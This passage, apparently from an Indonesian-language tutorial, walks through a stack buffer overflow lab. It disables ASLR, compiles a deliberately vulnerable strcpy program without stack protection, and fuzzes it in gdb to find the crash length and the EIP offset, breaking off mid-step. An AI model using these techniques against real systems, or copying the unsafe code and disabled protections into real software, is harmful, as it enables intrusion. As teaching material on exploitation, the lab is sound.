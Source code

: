 ```
root@bt:~# cat /proc/sys/kernel/randomize_va_space
2
root@bt:~# echo 0 > /proc/sys/kernel/randomize_va_space
root@bt:~# cat /proc/sys/kernel/randomize_va_space
0
root@bt:~#
```

sekarang saatnya kita meng - compile program tersebut.
perhatian : pada saat mengompile tambahkan opsi -fno-stack-protector dan -mpreferred-stack-boundary=2.
berikut caranya

```
root@bt:~# gcc -g -o bof -fno-stack-protector -mpreferred-stack-boundary=2 bof.c
```
sekarang saatnya kita mencari panjang string agar program si program mengalami crash.
```
root@bt:~# ./bof `perl -e 'print "A" x 400'`
root@bt:~# ./bof `perl -e 'print "A" x 403'`
```
seperti yang kita lihat, data tercopy kedalam buffer dan program exit secara normal.
dimana kita mengkopikan huruf "A" 400 - 403 bytes kedalam buffer.
```
root@bt:~# ./bof `perl -e 'print "A" x 404'`
Segmentation fault
root@bt:~#
```
disitu kita tahu kita membutuhkan 404 panjang string agar si program mengalami crash .
lalu kemudian sekarang yang kita lakukan adalah kita mencari panjang string agar register EIP teroverwrite pada inputan kita.
EIP adalah poin awal dimana instruksi selanjutnya akan tereksekusi, maka jika EIP tersebut kita teroverwrite, kita bisa melakukan apa yang kita mau eksekusi pada saat itu.
sekarang, saatnya kita gunakan GNU debugger atau biasa disebut gdb.
perhatikan pada experiment berikut.
```
root@bt:~# gdb -q bof
(gdb) list
1       #include <stdio.h>
2       #include <string.h>
3
4       int main(int argc, char** argv)
5       {
6               char buffer[400];
7               strcpy(buffer, argv[1]);
8
9               return 0;
10      }
(gdb) run `perl -e 'print "A" x 404'`
Starting program: /root/bof `perl -e 'print "A" x 404'`

Program received signal SIGSEGV, Segmentation fault.
0xb7e86606 in __libc_start_main () from /lib/tls/i686/cmov/libc.so.6
(gdb) run `perl -e 'print "A" x 405'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/bof `perl -e 'print "A" x 405'`

Program received signal SIGSEGV, Segmentation fault.
0xb7e800a9 in ?? () from /lib/tls/i686/cmov/libc.so.6
(gdb)
```
hmmm terlihat bahwa kita belum mengoverwritenya kita coba lagi tambahkan 1 string
```
(gdb) run `perl -e 'print "A" x 406'`
The program being debugged has been started already.
```